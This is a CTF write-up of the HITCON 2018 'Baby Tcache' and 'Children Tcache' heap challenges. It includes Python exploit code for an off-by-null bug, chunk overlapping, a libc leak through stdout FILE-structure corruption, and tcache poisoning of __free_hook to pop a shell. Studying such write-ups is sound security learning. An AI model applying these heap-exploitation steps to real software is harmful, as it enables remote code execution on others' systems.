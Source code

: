 ```yaml
---
layout: post
title: "[HITCON 2018] Baby Tcache"
---
```


## Baby tcache

The challenge is hard because it has no leak function. Just alloc and free heap

![](https://i.imgur.com/uJBrTpL.png)

The vuln off-by-null is easy to find in **new heap** function 

![](https://i.imgur.com/I8zJ2tV.png)

```
v3[size] = 0;
```

if the malloc size & 8 == 8 then it will overwrite to the size of next chunk. It will leads to chunk overlapping so we can control all the heap. 

### Overlapping chunk

To overlap chunk, we will do all the steps below

```python
	#1 create a big chunk to prevent using Tcache. Then push it to unsortedbin.
    newheap(0x1ff0,"A") #0
	newheap(0xff0,"A") #1
	delheap(0)
    #2 Trigger off by null.
	newheap(0x108,"xx")
    #3 Create then free more than 7 chunk to push a chunk to unsortedbin
	for i in xrange(8):
		newheap(0x100,"B")
	for i in xrange(3,10):
		delheap(i)
	delheap(2)
	delheap(0)
    #4 Fix the fd/bk pointer
	for i in xrange(8):
		newheap(0x100,"\x10")
	
	delheap(0)
    # Create some chunk to use it later.
	newheap(0x200,"C")
	newheap(0x200,"C")
    #5. Overlap chunk with top chunk 
	delheap(1)  #overlap
```

heap index #1. prev_size = 0x1ef0

![](https://i.imgur.com/DBwj6Go.png)

Fix the fd/bk pointer (FD->bk==P; BK->fd==P), we can free the heap #1. Then it will merge with chunk `xx360`  and overlap all chunks between 2 chunks.

![](https://i.imgur.com/rSkHSVz.png)



Because the heap #1 is the current high end of memory so it consolidates into top chunk.

![](https://i.imgur.com/HE5Ddhw.png)



### Leak libc

This step is hard if you dont know about FILE structure. Because the author of this challenge is Angelboy :D, so i guess we should use his research in it. 

The slide File Structures: Another Binary Exploitation Technique https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique and his talk in HITBGSEC 2018 https://www.youtube.com/watch?v=Fr3VU5hdL4s. Then i found the **arbitrary memory reading** by abusing the FILE structure 

```python
    #1. free all heaps to push it to tcache. Then we use technique Tcache poisoning to return to any address we want.
    for i in xrange(1,8):
            delheap(i)
	delheap(9) #0x200
	delheap(0) #0x200
    #2. Malloc heap in unsortbin.
	newheap(0x1150,"c") #0
	#3. Malloc and free to create address libc at the position of FD pointer Tcache.
	newheap(0xd0,"D")
	newheap(0x20,"C")
	newheap(0x550,"a") #3
	newheap(0x30,"a")
	delheap(3)
    #4. Overwrite 2 bytes of FD pointer of freed chunk 3. Brute-force stdout address.
	newheap(0x40,"\x60\xd7")
	newheap(0x100,"a") #6
    #5. Return stdout address.
    pl=""
    pl+=p64(0xfbad3c80) #_flags= ((stdout->flags & ~ _IO_NO_WRITES)|_IO_CURRENTLY_PUTTING)|_IO_IS_APPENDING
    pl+=p64(0) #_IO_read_ptr
    pl+=p64(0) #_IO_read_end
    pl+=p64(0) #_IO_read_base
    pl+="\x08" # overwrite last byte of _IO_write_base to point to libc address
	newheap(0x100,pl)
    #after that, puts function will print the libc address.
```

1. 

![](https://i.imgur.com/s7ZQtbW.png)

3. 

![](https://i.imgur.com/src7Rwq.png)

4. print libc address

![](https://i.imgur.com/XhRCybo.png)

### Overwrite free_hook

The last step is ez. Using Tcache poisoning to write __free_hook address to FD pointer of tcache_entry size 0x210 we prepared above

```python
	#1. overwrite fd pointer
	newheap(0x600,"A"*0x1d0+p64(libc.symbols['__free_hook']))
  	#2. Free some heaps to add new heaps
	delheap(8)
	delheap(1)
	newheap(0x200,"A")
    
    #3. Write one gadget to __free_hook
	newheap(0x200,p64(libc.address+0x4f322)) 
    #4. Trigger shelll
	delheap(0)
```

https://github.com/znqt/writeup/blob/master/2018/hitcon/babytcache/bt.py

![](https://i.imgur.com/ygkNMER.png)



## Children Tcache

Same as Baby tcache but easier because it has Show heap function.

The vuln is off-by-null because using function strcpy in New heap.

![](https://i.imgur.com/6MMczbG.png)

https://github.com/znqt/writeup/blob/master/2018/hitcon/childrentcache/ct.py

Thanks HITCON team and Angelboy for insteresting challenges.

### References

https://www.youtube.com/watch?v=Fr3VU5hdL4s

https://code.woboq.org/userspace/glibc/libio/libio.h.html

https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique

https://github.com/scwuaptx/CTF/blob/master/2018-writeup/hitcon/baby_tcache.py
